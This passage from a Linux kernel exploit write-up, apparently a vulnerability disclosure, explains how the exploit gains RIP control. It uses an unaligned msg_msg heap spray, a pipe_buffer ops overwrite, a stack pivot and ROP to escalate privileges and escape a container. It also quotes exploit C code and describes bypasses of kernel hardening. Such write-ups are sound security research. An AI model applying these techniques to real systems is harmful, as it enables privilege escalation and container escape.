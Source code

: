 ### 6.6 PC control for ROP

In this step, the exploit triggers RIP control through vtable overwrite and performs ROP for privilege escalation and container escape, with the heap leaks and KASLR leaks from previous steps.

- [exploit/extra-refined/exploit.c#L1027](../exploit/extra-refined/exploit.c#L1027)
```c
memset(msg_buf, 0, sizeof(msg_buf));
sleep(1);
ret = msgrcv(msgqids1[0], msg, 1, 0, IPC_NOWAIT | MSG_NOERROR);
if (ret < 0)
	perror("msgrcv");
payload = (uintptr_t *)msg->mtext;

// reclaim unaligned 1k msg_msg quickly!
spray_msgsnd(msgqids2, 0x100, 0x400 - 48, buf, 1, 3);
```
For that, first, the unaligned `struct msg_msgseg` chunk is freed through `msgqids1[0]` with `msgrcv` syscall. Note that current Linux's slub allocator implementation and even freelist hardening of the mitigation instance can't prevent this unaligned free primitive (refer [Bypassing `CONFIG_SLAB_FREELIST_HARDENED` freelist pointer validation mitigation via unaligned head section of novel-techniques.md](./novel-techniques.md#bypassing-config_slab_freelist_hardened-freelist-pointer-validation-mitigation-via-unaligned-head)).

After the unaligned chunk is freed, we spray the 1k-sized `struct msg_msg` objects that contain fake `ops`, kernel stack pivot gadget, and ROP payload through `msgqids2` to reclaim that unaligned chunk. Note that we set the unaligned chunk start as `original chunk boundary` - `sizeof(struct msg_msg)`. As a result, we can control the next slab chunk's content with msg payload. This unaligned msg_msg technique gives the powerful capability of overwriting the next chunk without crossing the slab chunk boundary or being hindered by `CONFIG_USERCOPY_HARDENED` config.

The `sleep` syscall is used to perform this free-reclaim sequence at the beginning of a given CPU time slice so that our freed chunk is not reclaimed intermediately by some other tasks.

![lts_6](./img/lts_6.png)

- [include/linux/pipe_fs_i.h:pipe_buf_release()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/include/linux/pipe_fs_i.h?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n177)
```c
static inline void pipe_buf_release(struct pipe_inode_info *pipe,
				    struct pipe_buffer *buf)
{
	const struct pipe_buf_operations *ops = buf->ops;

	buf->ops = NULL;
	ops->release(pipe, buf);
}
```
- [exploit/extra-refined/exploit.c#L1037](../exploit/extra-refined/exploit.c#L1037)
```c
printf("[+] will start with gadget addr %p\n", curr_gadget->pivot_gadget_cg_1_offset + kaslr_slide);

// and trigger ROP!
for (int i = 0; i < 0x100; i++)
{
	close(pipefd[i][0]);
	close(pipefd[i][1]);
}
```

